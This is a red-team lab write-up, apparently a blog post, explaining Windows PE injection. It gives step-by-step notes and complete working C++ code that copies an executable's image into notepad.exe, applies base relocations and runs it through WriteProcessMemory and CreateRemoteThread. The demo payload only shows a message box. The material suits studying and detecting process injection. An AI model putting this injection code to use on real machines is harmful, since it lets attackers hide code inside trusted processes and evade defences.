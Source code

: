 ```yaml
---
layout: post
title: "pe injection executing pes inside remote processes"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-injection-process-injection/
---
```


---
description: Code Injection
---

# PE Injection: Executing PEs inside Remote Processes

This is a quick lab of a simplified way of injecting an entire portable executabe (PE) into another running process.

{% hint style="warning" %}
Note that in order to inject more complex PEs, additional DLLs in the target process may need to be loaded and Import Address Table fixed and for this, refer to my other lab [Reflective DLL Injection](reflective-dll-injection.md#resolving-import-address-table).
{% endhint %}

## Overview

In this lab, I wrote a simple C++ executable that self-injects its PE into a target process. This executable contains 2 functions:

* `main` - this is the function that performs the self-injection of the PE image into a specified remote/target process, which is going to be `notepad.exe` in this case;
* `InjectionEntryPoint` - this is the function that will get executed by the target process (notepad) once notepads gets injected with our PE.&#x20;
  * This function will pop a `MessageBox` with a name of the module the code is currently running from. If injection is successful, it should spit out a path of notepad.exe.

## Technique Overview

Inside the current process, that's doing the self-injection of its PE:

1. Get the image base address `imageBase`
2. Parse the PE headers and get its `sizeOfImage`
3. Allocate a block of memory (size of PE image retrieved in step 1). Let's call it `localImage`
4. Copy the image of the current process into the newly allocated local memory `localImage`
5. Allocate a new memory block (size of PE image retrieved in step 1) in a remote process - the target process we want to inject the currently running PE into. Let's call it `targetImage`
6. Calculate the delta between memory addresses `targetImage` and `imageBase`, let's call it `deltaImageBase`&#x20;
7. Relocate/rebase the PE that's stored in `localImage` to `targetImage`. For more information about image relocations, see my other lab [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md)
8. Write the patched PE into the `targetImage` memory location using `WriteProcessMemory`
9. Create remote thread and point it to `InjectionEntryPoint` function inside the PE target process

## Walkthrough

Getting `sizeOfImage` of the current process (local process) that will be injecting itself into a target process and allocating a new memory block in the local process:

![](<../../.gitbook/assets/image (206).png>)

In my case, the new memory block got allocated at address `0x000001813acc0000`. Let's copy the current process's image in there:

![](<../../.gitbook/assets/image (207).png>)

Let's allocate a new block of memory in the target process. In my case it got allocated at `0x000001bfc0c20000`:

![](<../../.gitbook/assets/image (208).png>)

Calculate the delta between `0x000001bfc0c20000` and `0x000001813acc0000` and perform [image base relocations](process-hollowing-and-pe-image-relocations.md#relocation). Once that's done, we can move over our rebased PE from `0x000001813acc0000` to `0x000001bfc0c20000` in the remote process using `WriteProcessMemory`.&#x20;

Below shows that our imaged has now been moved to the remote process:

![](<../../.gitbook/assets/image (209).png>)

Finally, we can create a remote thread and point it to the `InjectionEntryPoint` function inside the remote process:

```cpp
CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);
```

![New thread getting created inside notepad.exe](../../.gitbook/assets/newthread.gif)

## Demo

Below shows how we've injected the PE into the notepad (PID 11068) and executed its function `InjectionEntryPoint` which printed out the name of a module the code was running from, proving that the PE injection was succesful:

![](../../.gitbook/assets/pe-injection.gif)

## Code

Below is the commented code that performs the PE injection:

```cpp
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
	return 0;
}

int main()
{
	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	// Open the target process - this is process we will be injecting this PE into
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 9304);
	
	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	// Write the relocated localImage into the target process
	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	// Start the injected PE inside the target process
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```

## References

{% embed url="https://www.andreafortuna.org/2018/09/24/some-thoughts-about-pe-injection/" %}

{% embed url="https://blog.sevagas.com/PE-injection-explained" %}

{% embed url="https://www.malwaretech.com/2013/11/portable-executable-injection-for.html" %}
@spotheplanet
